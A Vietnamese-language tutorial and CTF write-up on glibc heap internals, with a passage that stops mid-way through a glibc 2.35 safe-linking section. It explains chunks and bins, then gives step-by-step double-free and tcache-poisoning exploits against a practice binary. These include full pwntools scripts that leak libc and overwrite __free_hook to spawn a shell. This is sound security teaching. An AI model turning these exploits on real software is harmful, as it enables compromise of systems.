# HEAP BASIC
## I. Overview
### 1. Định nghĩa
**Heap**: là một vùng nhớ có chức năng chính là dùng cho việc cung cấp không gian vùng nhớ cho các dữ liệu cần lưu trữ (heap chunk) thông qua thao tác cấp phát động trong quá trình một chương trình đang thực thi.

**Heap chunk**: Là một phần của vùng nhớ heap được tạo ra thông qua việc cấp phát để lưu trữ dữ liệu. Thực chất, vùng nhớ heap khi chưa có bất kì thao tác cấp phát động nào thì sẽ tồn tại trong một chunk thống nhất đó là **Top chunk**.


Việc cấp phát động được thực hiện bởi các thao tác của các hàm:
- Malloc: `<data type>* pointer_name = malloc(size_t size);`. Thực hiện việc cấp phát một vùng nhớ với kích thước yêu cầu là `size` và trả về là con trỏ `pointer_name` trỏ đến đầu vùng nhớ vừa cấp phát. Nội dung của vùng nhớ chưa được khởi tạo trước và có thể chứa giá trị rác.
  
- Calloc: `<data type>* pointer_name = calloc(size_t amount, size_t size);`. Tương tự như `malloc()` nhưng ở đây nó thực hiện việc cấp phát một kích thước `amount * size` và khởi tạo toàn bộ dữ liệu trong vùng được cấp phát thành 0 (Zero init).

- Realloc: `<data type>* pointer_name = realloc(void *old_pointer, size_t size)`. Thực hiện việc thay đổi kích thước của vùng nhớ đã được cấp phát trước đó tại `old_pointer` thành `size`. Nếu cần, vùng nhớ mới sẽ được cấp phát và dữ liệu cũ sẽ được sao chép sang.

- Free: `free(pointer_name);`. Thực hiện việc giải phóng vùng nhớ được cấp phát thông qua con trỏ `pointer_name` trỏ đến vùng nhớ được cấp phát trước đó. 

### 2. Cấu tạo
---
#### 2.1 Metadata:
Có kích thước là `0x10 byte (64 bit)` và là `0x8 byte (32 bit)`.

Là các thông tin cơ bản của heap chunk sẽ bao gồm: **Chunk size**, **Flag mode**, **Previous size**.

##### 2.1.1 Chunk size:
Là kích thước của chunk hiện tại (bao gồm cả metadata), được lưu ở 4 byte thứ 2 chunk ở kiến trúc 32 bit và 8 byte thứ 2 chunk ở kiến trúc 64 bit.

##### 2.1.2 Previous size:
Là kích thước của chunk phía trước chunk hiện tại. Hỗ trợ trình quản lý heap trong các thao tác gộp chunk nếu cần thiết và thường nằm ở 8 byte trước chunk size. Thông số này sẽ được sử dụng khi chunk trước đó được free phục vụ cho quá trình gộp chunk đối với các chunk được free và đưa vào **unsorted bin**:

Giả sử ta tiến hành malloc 2 chunk với kích thước khác nhau và lớn hơn 0x400 byte và ta cho free trước chunk đầu tiên và khi đó tại metadata tại chunk 2 ta có:


##### 2.1.3 Flag bit: 
Là bit thể hiện trạng thái của chunk và bit này có vị trí cũng ở đầu chunk và được cộng vào chunksize nhưng không làm ảnh hưởng đến kích thước thật sự của chunk và có dạng: `Chunk size + Flag bit`.

Bao gồm 3 trạng thái:
- **Previous freed [0x00]** : bit này được set khi chunk phía trước đã bị free.
- **Previous chunk in use [0x01]** : bit này được thêm vào khi chunk ở phía trước của chunk hiện tại cũng đang được sử dụng và đây là flag của chunk phía nhưng lại nằm ở metadata của chunk hiện tại. Lí do cho việc này là do cơ chế **Consolidation** của trình quản lý heap. Cơ chế này cho phép việc gộp các chunk đã được free với mục đích nhằm tối ưu hóa, chống phân mảnh heap và giúp cho việc cấp phát cho các chunk có kích thước lớn hơn trong tương lai. Thông qua bit trạng thái trên, trình quản lý heap có thể biết được giới hạn của việc gộp chunk. 
    > Giả sử ta có 3 chunk được khởi tạo và ta tiến hành free chunk thứ 2:
    > 
    > 
    > Ta thấy rằng chunk 2 được free và kéo theo đó prev_size của chunk 3 đang là size của chunk 2 nhưng lúc này bit flag của chunk 3 và 2 đều là 0. 
    > 
    > Ở đây, prev size tại metadata của chunk 3 là hợp lệ để sử dụng và thao tác cho việc gộp chunk và một khi chunk 3 được free thì chunk 2 và 3 sẽ bị gộp lại với nhau:
    > 
    > 
    > Lúc này cả 2 chunk đều đã gộp với nhau và ta có thể kiểm chứng:
    > 
    >  
    > **Lưu ý:** Sự gộp chunk với bit flag 0 chỉ diễn ra với các chunk ở Unsorted bin, Small bin và Large bin còn đối với Tcache và Fast bin thì điều này không diễn ra vì các vùng chứa chunk như Tcache và Fastbin hướng đến sự nhanh và thuận tiện cho việc cấp phát lại bộ nhớ về sau nên sẽ không gộp tránh hiện tượng chunk có size không hợp lệ để cấp phát lại và phải cắt thêm từ Top chunk.

- **Is mmapped [0x02]** : bit này được thêm vào khi chunk hiện tại được cấp phát bằng hàm `mmap`. Việc cấp phát động phải thông qua hàm `mmap` khi kích thước còn lại của **Top chunk** không còn đủ để có thể cấp phát động tiếp theo yêu cầu và khi này hàm `mmap` sẽ được gọi để tiến hành xin được cấp phát thêm một vùng nhớ khác bên ngoài vùng heap có kích thước phù hợp với yêu cầu từ hệ điều hành.

    > Giả sử ta tiến hành malloc một chunk với kích thước là 0x21000 và sau thao tác đó hệ điều hành sẽ cấp phát một vùng mới với kích thước theo yêu cầu cho ta:
    > 
    > 
    >
    > Khi đó ta thấy flag bit của chunk là 0x2:
    >
    > 

- **Non in main arena [0x04]** : bit này được thêm vào khi heap chunk không nằm trong tiến trình chính (main arena), thường được thêm vào khi sử dụng các heap chunk được cấp phát trong multi-threading hoặc khi sử dụng nhiều arena khác nhau. Mặc định chương trình luôn tồn tại main arena nhưng nếu chương trình tiến hành sử dụng nhiều thread (multi-threading) và mỗi thread có thể dùng arena riêng, mặc dù các thread đều có các context riêng (thanh ghi, stack, ...) nhưng chúng đều chia sẻ chung một vùng nhớ heap với tiến trình chính và khi đó thao tác cấp phát động trả về chunk thuộc arena của riêng thread con và flag này được thêm vào chunk đó.

#### 2.2 Content:
Có kích thước là kích thước được yêu cầu để cấp phát động bởi người dùng thông qua chương trình và là nơi lưu trữ các dữ liệu.

Ta có cấu tạo tổng thể của một heap chunk:



Thông thường, với việc được yêu cầu cấp phát động một chunk với kích thước yêu cầu thì trình quản lý heap sẽ phải cấp phát một chunk có kích thước lớn hơn kích thước yêu cầu để dành nó cho metadata và đồng thời là để căn chỉnh chunk.

#### 2.3 Sự căn chỉnh heap chunk:
Một heap chunk thông thường có kích thước hợp lệ là một số chia hết cho 8 (kiến trúc 32 bit) và chia hết cho 16 (kiến trúc 64 bit). 
> Lí do cho việc căn chỉnh này là vì một vùng heap có thể chứa các thông tin vói kiểu dữ liệu khác nhau và vì chúng không được biết trước loại dữ liệu gì sẽ được lưu nên trình quản lý heap sẽ phải mặc định sự căn chỉnh trên cho phù hợp với việc lưu trữ các thông tin với các kiểu dữ liệu khác nhau.

### 3. Các loại ngăn xếp trong quản lý heap
--- 
Khi một chunk được free thì trước khi được trả về cho **Top chunk** hoặc cho hệ điều hành thì với mục đích tối ưu hóa hiệu năng cấp phát, các chunk sẽ được đưa vào các ngăn xếp để có thể tái sử dụng cho các phần cấp phát trong tương lai. 
#### 3.1 Fastbin
--- 
Là một ngăn xếp các chunk có kích thước nhỏ từ 0x20 byte đến 0x80 byte (64 bit) và từ 0x10 đến 0x50 (32 bit). 

Fast bin bao gồm các mức kích thước cách nhau 0x10 byte mỗi mức từ 0x20, 0x30 ... đến 0x70, 0x80 (64 bit) và 0x10, 0x18, ... đến 0x48, 0x50 (32 bit) và mỗi mức kích thước với index riêng lưu trữ các chunk dưới dạng một danh sách liên kết đơn:



Giả sử ta tiến hành free 2 chunk có kích thước như nhau và khi đó:



Sau đó ta sẽ tiến hành `malloc` lại một chunk có cùng kích thước và thấy rằng:



Fast bin lúc này chỉ còn lại chunk 1 và chunk 2 đã được cấp phát lại.

#### 3.2 Tcache
---
Tương tự như **Fast bin** nhưng đây là một tính năng lưu chữ chunk tối ưu được thêm vào từ phiên bản libc 2.26 trở lên. 

Điểm tối ưu của Tcache so với **Fast bin** là giữa các tiến trình đều chia sẻ chung một **Fast bin** nhưng với **Tcache** thì mỗi Thread đều có một **Tcache** riêng, tối ưu hơi việc cấp phát lại các chunk. 

**Tcache** lưu trữ các chunk được giải phóng ở khích thước từ **`0x20 - 0x410 byte (64 bit)`** và từ **`0x10 - 0x208 byte (32 bit)`** **(đã bao gồm metadata)** và tương tự với **Fast bin**, với mỗi mức kích thước cách nhau 0x10 byte / 0x8 byte đều có thể lưu trữ tối đa 7 chunk theo cơ chế của một danh sách liên kết đơn. Nếu tồn tại một chunk thứ 8 được free thì sẽ được đưa vào **Fast bin** hay **Unsorted bin** tùy vào kích thước của chunk đó:
- **`0x20 - 0x80 / 0x10 - 0x50`** : Chunk được đưa vào **Fast bin**.
- **`0x90 - 0x410 / 0x58 - 0x208`** : Chunk được đưa vào **Unsorted bin**.
 


Và khi ta cấp phát một chunk mới thì nó sẽ lấy chunk có size hợp lệ trực tiếp trong **Tcache** và cấp cho người dùng:




#### 3.3 Unsorted bin
---
**Unsorted bin** là nơi lưu trữ các chunk đã được giải phóng nhưng kích thước đã vượt quá kích thước của **Tcache** hoặc hợp lệ nhưng trong **Tcache** đã có đủ chunk ở cùng một mức kích thước. Các chunk trong **Unsorted bin** được lưu với cơ chế liên kết đôi:




Như ta thấy tại **Unsorted bin** tồn tại 2 con trỏ là **Forward Pointer** và **Backward pointer** phục vụ cho quá trình liên kết đôi. 
- **Forward pointer** của chunk 1 trỏ đến chunk 2.
- **Backward pointer** của chunk 2 trỏ về chunk 1.
- Đồng thời **Backward pointer** của chunk 1 và **Forward pointer** của chunk 2 đều trỏ đến vùng **Main Arena** , nơi đóng vai trò như một danh sách quản lý tất cả các bin.
  
Ngoài ra trong **Unsorted bin**, để chống phân mảnh heap và tối ưu hóa quản lý thì tồn tại cơ chế **Consolidate** cho phép gộp các chunk được giải phóng nằm liền kề nhau.
> Giả sử ta có 2 chunk trong đó chunk đầu tiên đã được free và ta sẽ thấy:
> 
> 
> **Previous Size** của chunk 2 đang là size của chunk 1 và các bit flag được set là 0x0 có ý nghĩa là việc sử dụng Prev_size là hợp lệ để tính toán cho việc gộp chunk.
> 
> Ta free tiếp chunk 2 và sẽ có:
> 
> 
> Một chunk mới được hợp thành có kích thước bằng tổng kích thước chunk 1 và chunk 2.
> 
> **Lưu ý:** với các chunk được free và đưa vào **Unsorted bin** và nằm liền kề **Top chunk** sẽ được gộp (consolidate) trực tiếp vào **Top chunk**.
> 
> Nếu ta cần cấp phát một chunk có kích thước ví dụ là 0x200 byte thì khi đó trình quản lý heap sẽ cắt trực tiếp từ chunk mới được hợp thành và cung cấp cho người dùng.
> 

#### 3.4 Small bin/Large bin
---
Khi một chunk có kích thước không phù hợp với **Tcache** và **Fastbin** được free và đưa vào **Unsorted bin**, sau đó tiến hành cấp phát một chunk có kích thước không phù hợp với chunk hiện tại trong **Unsorted bin** thì chunk trong **Unsorted bin** sẽ được đưa và **Large bin/Small bin** tùy thuộc vào kích thước của nó:
- **`Small bin`**: Dành cho các chunk có kích thước <= 0x400 byte / 0x200 byte.
- **`Large bin`**: Dành cho các chunk có kích thước > 0x400 byte / 0x200 byte.

Các chunk được lưu trữ tại **Small bin** và **Large bin** đều ở dạng một danh sách liên kết đôi.

> Giả sử ta đã lắp đầy **Tcache class size 0x200** và ta tiến hành cấp phát tiếp một chunk có kích thước 0x200 và free nó, sau đó ta tiến hành cấp phát một chunk có kích thước 0x500 byte thì ta thấy:
> 
> 
> Sau khi chunk có kích thước 0x500 byte được cấp phát và vì kích thước của chunk trong **Unsorted bin** là không đủ nên chunk đó sẽ được sắp xếp vào **`Small bin (size = 0x200)`**. Ở những lần cấp phát tiếp theo nếu kích thước cấp phát hợp lệ thì trình quản lý sẽ cắt hoặc lấy chunk trong **Small bin** ra và cấp cho người dùng.
> 
> Cũng với chunk có kích thước 0x500 byte có sẵn, ta sẽ giải phóng toàn bộ các chunk trong **Tcache** và **Small bin** bằng cách cấp phát lại các chunk có kích thước tương ứng rồi ta sẽ tiếp tục free nó và lúc này, chunk này sẽ được đưa vào **Unsorted bin** và khi ta tiến hành cấp phát động thêm một chunk 0x700 byte nữa thì ta thấy:
> 
> 
> Vì kích thước của chunk có sẵn trong **Unsorted bin** là không đủ cho kích thước của chunk yêu cầu nên chunk này sẽ được cắt từ **Top chunk** và cấp phát cho người dùng, đồng thời trình quản lý heap cũng sắp xếp chunk trong **Unsorted bin** vào **Large bin** đợi cho lượt sử dụng tiếp theo.

## II. Common bugs & exploit techniques 
Ở phần kiến thức Heap này, ta có 2 kĩ thuật khai thác cơ bản đó là **Double Free** và **Tcache Poisoning**. 2 kĩ thuật này đều tận dụng lỗ hỏng **Use After Free** là nền tảng khai thác:

### Use After Free
---
Đây là lỗ hỏng được tạo ra từ việc thực hiện free một chunk nhưng không set NULL cho biến con trỏ chứa con trỏ đến chunk vừa free. Vì vậy sau khi free, con trỏ vẫn có thể được tái sử dụng cho các mục đích khác và thậm chí là leak dữ liệu.

### Double Free
---
Từ cơ chế của lỗ hỏng **Use After Free**, ta hoàn toàn có thể thao túng con trỏ chunk đã được free để làm mọi thứ và kể cả là một lần free nữa. 

Với việc free 2 lần cùng một chunk sẽ kiến cho các ngăn xếp chunk nhầm lẫn và vô tình xếp một chunk vào 2 lần vào bin, điều này làm thay đổi con trỏ liên kết trong chuỗi liên kết đơn các chunk và có thể dẫn đến việc cấp phát tùy ý, qua đó ta có thể sử dụng để ghi đè hoặc đọc ra các dữ liệu nhạy cảm của hệ thống.

Hàm `free()` cũng có cơ chế nhằm chống lại kĩ thuật này tùy thuộc vào phiên bản Glibc.

Đó là sẽ kiểm tra xem chunk được yêu cầu free có đang nằm ở đầu danh sách hay không (đối với Fast bin) và sẽ kiểm tra key được thêm vào chunk trong quá trình free (đối với Tcache). Nên ta cần bypas qua 2 điều kiện này để thực hiện kĩ thuật.

### Tcache Poisoning
---
Đây là kĩ thuật nhắm vào cơ chế liên kết đơn của các chunk trong **Tcache**. Kĩ thuật có thể được thực hiện dựa vào **Double Free**. 

Nghĩa là sau khi vào **Tcache** các chunk sẽ có con trỏ để trỏ đến các chunk tiếp theo trong ngăn xếp và ta sẽ thay đổi con trỏ đó và kéo theo là việc chunk ở phía trước cũng sẽ thay đổi thành địa chỉ ta mong muốn, phục vụ cho công việc khai thác.

## III. Practice Task Challenge
Với 2 kĩ thuật trên thì ở mỗi kĩ thuật còn có cách áp dụng và khai thác khác nhau dựa vào phiên bản của Glibc và đặc trưng của phiên bản đó.
---

### 1. Double Free
Các file chương trình của kĩ thuật này là như nhau và hầu như chỉ khác phiên bản glibc nên ta sẽ phân tích một lượt chương trình ở đây:
#### IDA
```c=
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  char v3; // [rsp+Fh] [rbp-11h] BYREF
  int v4; // [rsp+10h] [rbp-10h] BYREF
  _DWORD size[3]; // [rsp+14h] [rbp-Ch] BYREF

  *(_QWORD *)&size[1] = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("Ebook v1.0 - Beta version\n");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        menu();
        __isoc99_scanf("%d", &v4);
        __isoc99_scanf("%c", &v3);
        if ( v4 != 1 )
          break;
        printf("Size: ");
        __isoc99_scanf("%u", size);
        __isoc99_scanf("%c", &v3);
        ptr = malloc(size[0]);
        printf("Content: ");
        read(0, ptr, size[0]);
        *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
      }
      if ( v4 == 2 )
        break;
      switch ( v4 )
      {
        case 3:
          if ( ptr )
          {
            free(ptr);
            puts("Done!");
          }
          else
          {
LABEL_15:
            puts("You didn't buy any book");
          }
          break;
        case 4:
          if ( !ptr )
            goto LABEL_15;
          printf("Content: %s\n", (const char *)ptr);
          break;
        case 5:
          exit(0);
        default:
          puts("Invalid choice!");
          break;
      }
    }
    if ( !ptr )
      goto LABEL_15;
    printf("Content: ");
    read(0, ptr, size[0]);
    *((_BYTE *)ptr + (unsigned int)(size[0] - 1)) = 0;
  }
}
```
> Chương trình đơn giản là một trình thao tác với Book với 5 thao tác chính là :
> - Lựa chọn 1: book sẽ được tạo qua thông qua việc cấp phát động một chunk từ kích thước và đồng thời cũng khởi tạo nội dung được lấy từ dữ liệu đầu vào. 
> - Lựa chọn 2: cho phép ta chỉnh sửa nội dung của book.
> - Lựa chọn 3: cho phép ta xóa nội dung trong book qua hàm `free()` nhưng không xóa hẳn con trỏ đến book.
> - Lựa chọn 4: cho phép ta đọc nội dung từ book.
> - Lựa chọn 5: cho phép ta thoát khỏi chương trình.

#### IDEA 
Lựa chọn 3 chỉ giải phóng chunk đóng vai trò là book của lượt cấp phát hiện tại nhưng không hề set NULL cho con trỏ đến chunk đó nên ta vẫn có thể thao túng nó để thực hiện Double Free.

#### Checksec
Ta có checksec chung cho file binary là:



> RELRO full protection: Không thể thực hiện việc tấn công thông qua bảng GOT.
> 
> NO PIE: địa chỉ file binary tĩnh, hỗ trợ gọi các symbol dễ dàng.

#### DEFINE FUCTION
Để thuận tiện hơn cho khai thác ta sẽ tiến hành thiết lập các hàm trong script với các tùy chọn nhập vào trong chương trình:
```python3=
def buy(size, data):
    slna(b'> ',1)
    slna(b'Size: ',size)
    sa(b'Content: ',data)

def w(data):
    slna(b'> ',2)
    sa(b'Content: ',data)

def er():
    slna(b'> ',3)

def read():
    slna(b'> ',4)
```
---

#### 1.1 GLIBC 2.23
Đây là phiên bản libc khá cũ và chưa có **Tcache**, hoạt động chính trên **Fast Bin** và các cơ chế bảo mật còn khá sơ sài.

##### EXPLOIT
**Libc leak:** Với phiên bản libc này thì ta có thể đơn giản fake `Forward Pointer` để có thể alloc tùy ý.



Như ta thấy trong chunk sau free chỉ còn lại metadata và còn lại trong chunk là các byte NULL.

Tuy nhiên, ta vẫn có thể thực hiện thao tác **Fake Forward Pointer** với chunk trong **Fast Bin**. Giả sử ta cho khởi tạo và free một chunk rồi sau đó tiến hành một **Use After Free** bằng thao tác 2 ghi vào trong chunk đã free một địa chỉ bất kì (ở đây là địa chỉ biến **ptr** là `0x404058`):



Ta thấy lúc này trình quản lý **Fast Bin** đang có sự nhầm lẫn rằng chunk hiện tại trong Bin đang có một liên kết đơn đến chunk tại địa chỉ của biến **ptr**. Tuy nhiên, ở đây **Fast Bin** cũng đã báo lỗi **"incorrect_fastbin_index"** vì hiện tại size của chunk tại địa chỉ biến **ptr** đang là 0x0. Vì vậy ta không thể thao tác với chunk tại đó và đồng thời cũng gặp lỗi khi cố gắng cấp phát chunk:



Chính vì vậy, với mục tiêu là leak được libc, ta cần tìm địa chỉ mà tại đó có kích thước sẵn, đồng thời nội dung trong chunk có bao gồm một địa chỉ libc để ta có thể sử dụng thao tác 4 để đọc ra:



Ta thấy rằng, tại đây có bao gồm 3 địa chỉ libc của `stdout`, `stdin`, `stderr` nhưng ta không thể đơn giản lấy chính những địa chỉ này làm kích thước cho chunk muốn khởi tạo vì bản chất những địa chỉ này có giá trị rất lớn nên ta buộc phải lấy một địa chỉ khác bằng cách trừ đi địa chỉ khởi tạo:



Ta thấy rằng khi trừ đi một offset là `3` thì các byte địa chỉ sẽ bị rời rạc và tồn tại ở các khoảng 8 byte khác nhau và tận dụng điều này, ta sẽ lấy các byte rời rạc của địa chỉ (0x7f) làm size cho chunk và để đảm bảo cho content của chunk có sẵn địa chỉ libc thì ta sẽ tiến hành lấy tại địa chỉ `0x40402d`. Và với kích thước ta lấy được thì ta cần đảm bảo size của chunk ta khởi tạo ban đầu cần nằm chung class với chunk fake. Vì vậy ban đầu ta cần khởi tạo chunk có kích thước là **0x68**:



Ta thấy rằng trình quản lý **Fast Bin** không còn báo lỗi với fake chunk nên ta chỉ cần tiến hành cấp phát chunk tại đó:



Vậy việc cấp phát diễn ra bình thường. Và ta có fake chunk:



Ta thấy rằng trong chunk hiện tại có địa chỉ libc `stderr` và ta cần có thao tác khởi tạo chunk fake với giá trị khởi tạo ban đầu là các byte có thể nối với địa chỉ này vì nếu ta cố in nội dung trong chunk hiện tại thì sẽ dẫn đến việc in không đầy đủ vì trong chunk hầu như là NULL byte:



Và ta thấy rằng với 3 byte "a" thì ta đã nối chuỗi được với địa chỉ và giờ ta tiến hành in ra:



Vậy ta địa chỉ libc thành công được leak.

**Cooking Shell:** Ta sẽ tiến hành get shell thông qua một `Free Hook Overwrite`. Và để ý rằng, trong khoảng chunk ta fake có bao gồm cả giá trị của biến **size** và **ptr**:



Nên thông qua thao tác 2, ta sẽ tiến hành việc ghi đè giá trị của biến **ptr** và **size** thành lần lượt là địa chỉ của `free_hook` với size thích hơp (`0x50`) và phải đảm bảo địa chỉ của `stderr` được giữ nguyên:



Và hiện tại biến **ptr** đang là địa chỉ của `free_hook` và ta hoàn toàn có thể sử dụng các thao tác để tương tác với giá trị tại đây. Ta sẽ tiến hành ghi đè `free_hook` bằng địa chỉ hàm `system()`:



Và lúc này, ta chỉ cần cấp phát tiếp một chunk với kích thước vừa đủ cho chuỗi `/bin/sh` với giá trị khởi tạo là chuỗi `/bin/sh` và sau đó tiến hành free chunk đó:



Lúc này do `free_hook` đã bị ghi đè thành hàm `system()` nên khi ta tiến hành free địa chỉ chunk có chứa chuỗi thì ta sẽ get shell;



Vậy ta get shell thành công.

=> **Challenge hoàn thành !**

##### FULLSCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('challok', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()

def buy(size, data):
    slna(b'> ',1)
    slna(b'Size: ',size)
    sa(b'Content: ',data)

def w(data):
    slna(b'> ',2)
    sa(b'Content: ',data)

def er():
    slna(b'> ',3)

def read():
    slna(b'> ',4)

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+78
        b*main+192
        b*main+407
        b*main+488
        
        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p


if args.REMOTE:
    p = remote('')  
else:
    p = process([exe.path])
GDB()

#Libc leak
buy(0x68, b'a'*8)
er()
w(p64(0x40402d))
buy(0x68, b'a'*8)
buy(0x68, b'a'*3)
read()
ru(b'a'*3)
libc_leak = u64(rl()[:-1]+b'\0\0')
info("Libc leak: "+hex(libc_leak))
libc.address = libc_leak - 0x39c540
info("Libc base: "+hex(libc.address))
hook = libc.address + 0x39d7a8

#Hook Overwrite
p0 = b'a'*3 + flat(libc_leak, b'a'*8, 0x50, hook)
w(p0)
w(p64(libc.sym.system))

#Get shell
buy(0x50, b'/bin/sh\0')
er()

p.interactive()
```
---
#### 1.2 GLIBC 2.31
Đây là phiên bản libc phổ thông và đã có **Tcache**, ngoài ra không có thêm các cơ chế bảo mật nào đáng kể. 

##### EXPLOIT
**Libc leak:** Ta sẽ thực hiện leak libc trực tiếp từ GOT entry của hàm `puts()` thông qua tùy chọn thứ 4. Chương trình chỉ thao tác với duy nhất 1 chunk trong mỗi lần cấp phát thông qua biến **ptr** vậy nên ta sẽ kiểu soát dữ liệu tại biến **ptr** để trỏ đến địa chỉ `puts@GOT` và khi đó ta có thể dùng tùy chọn 4 để in ra địa chỉ libc `puts@PLT`.

Đầu tiên ta sẽ tiến hành cấp phát một chunk với size phù hợp (trong khoảng kích thước **Tcache**) và free nó:



Ta đã có chunk ở trong **Tcache**. Trong phiên bản `Glibc 2.31`, **Double Free** được kiểm tra thông qua **key**, thứ được thêm vào chunk sau khi bị free và nếu **key** đã tồn tại thì sẽ báo lỗi `'Double Free detected'`:



Vậy nên để bypass, ta chỉ cần chỉnh sửa giá trị của **key** trong chunk sau khi free thành một giá trị bất kì nào miễn là khác **key** thông qua tùy chọn 2:



Ta có key ban đầu được thêm vào là `0x149cc010` và sau khi chỉnh sửa:



Giá trị của **key** đã thay đổi thành `0xcafef00d` và lúc này ta thử thực hiện **Double Free**:



Vậy lúc này trong **Tcache** đã có 2 chunk trùng nhau. **Double Free** thành công.

Lúc này ta cần chương trình cấp phát cho ta một chunk tại địa chỉ của biến **ptr** nên ta sẽ lợi dụng cơ chế liên kết đơn của **Tcache**: 

Ta tiến hành chỉnh sửa con trỏ **Forward Pointer** trong chunk (lúc này đang trỏ đến chính chunk hiện tại) thành địa chỉ của biến **ptr** và sau đó trong **Tcache** sẽ không còn là 2 chunk trùng nhau nữa mà là 2 chunk khác nhau:



Ta chỉnh sửa con trỏ `0x149cc2a0` thành địa chỉ biến **ptr**:



Ta đã thấy xuất hiện trong **Tcache** là địa chỉ biến `ptr` và sau đó ta tiến hành cấp phát 2 lần, lần 1 là để cấp phát chunk thuộc heap và lần 2 là cấp phát chunk tại biến **ptr** với giá trị khởi tạo là địa chỉ của `puts@GOT`:



Như vậy ta đã thành công kiểm soát biến **ptr** để trỏ đến địa chỉ của `puts@GOT` và lúc này ta chỉ cần chọn tùy chọn 4 để in ra nội dung là địa chỉ libc `puts@PLT`:




Sau khi nhận và có các bước tính toán, ta đã thành công leak được địa chỉ libc.

**Cooking Shell**: Với việc ta đã có được địa chỉ libc, ta sẽ có thể get shell trực tiếp thông qua việc **Hook Overflow** và ở đây ta sẽ ghi đè địa chỉ `__free_hook` thành địa chỉ của `system`, và sau đó ta chỉ cần free một chunk có nội dung là chuỗi `/bin/sh` là hoàn thành. Ta sẽ tiến hành **Double Free** lại với các thao tác như trên một lần nữa nhưng lần này chunk thứ 2 là tại địa chỉ của `__free_hook`:



Tiến hành chỉnh sửa:



Và ta cũng tiến hành cấp phát lại chunk đầu tiên tại `__free_hook` với nội dung là địa chỉ hàm `system()` và chunk thứ 2 với nội dung là chuỗi `/bin/sh`. Bước cuối cùng ta tiến hành free chunk thứ 2 có chứa chuỗi là xong:







Vậy ta có shell thành công.

=> **Challenge hoàn thành !**
##### FULLSCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('chall_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()

def buy(size, data):
    slna(b'> ',1)
    slna(b'Size: ',size)
    sa(b'Content: ',data)

def w(data):
    slna(b'> ',2)
    sa(b'Content: ',data)

def er():
    slna(b'> ',3)

def read():
    slna(b'> ',4)

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+78
        b*main+192
        b*main+407
        b*main+488

        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()
#Double free
buy(512, b'abc')
er()
w(b'0'*8+p64(0xcafef00d))
er()

#Edit ptr for libc leak
w(p64(exe.sym.ptr))
#Malloc at puts got and have libc
buy(512, b'\0')
buy(512, p64(exe.got.puts) + p64(0x200))
read()

ru(b'Content: ')
leak = u64(r(6)+b'\0\0')
info("Libc leak: "+hex(leak))
libc.address = leak - 0x84420
info("Libc base: "+hex(libc.address))

#Double free again
buy(512, b'abc')
er()
w(b'0'*8+ p64(0xcafef00d))
er()

#Overwrite there for hook overwrite
w(p64(libc.address + 0x1eee48))

#Malloc for hook overwrite by system
buy(512, b'\0')
buy(512, p64(libc.sym.system))

#Free this for shell
buy(512, b'/bin/sh\0')
er()
p.interactive()
```
---

#### 1.3 GLIBC 2.35
Ở phiên bản libc này đã có **Tcache** và đồng thời đã tích hợp thêm cơ chế **Safe Linking** (đã được thêm vào từ phiên bản Glibc 2.32) cho cơ chế liên kết đơn của các chunk trong **Tcache** và **Fast bin**, đồng thời là cơ chế **Malloc Aligned Tcache** kiểm tra các chunk, Pointer để đảm bảo bảo mật cho việc cấp phát.
> Safe Linking
> -
> Được áp dụng cho các chunk trong **Tcache** và **Fast bin**, cơ chế này giúp mã hóa thông tin liên kết giữa các chunk. Cụ thể, các **Forward pointer** sẽ bị mã hóa nhằm nâng cao bảo mật và hạn chế các khai thác bằng con trỏ này như **Tcache Poisoning -> Arbitrary Malloc**. 
> Cơ chế được định nghĩa trong source libc như sau:
> ```c=
> /* Safe-Linking:
>    Use randomness from ASLR (mmap_base) to protect single-linked lists
>    of Fast-Bins and TCache.  That is, mask the "next" pointers of the
>    lists' chunks, and also perform allocation alignment checks on them.
>    This mechanism reduces the risk of pointer hijacking, as was done with
>    Safe-Unlinking in the double-linked lists of Small-Bins.
>    It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
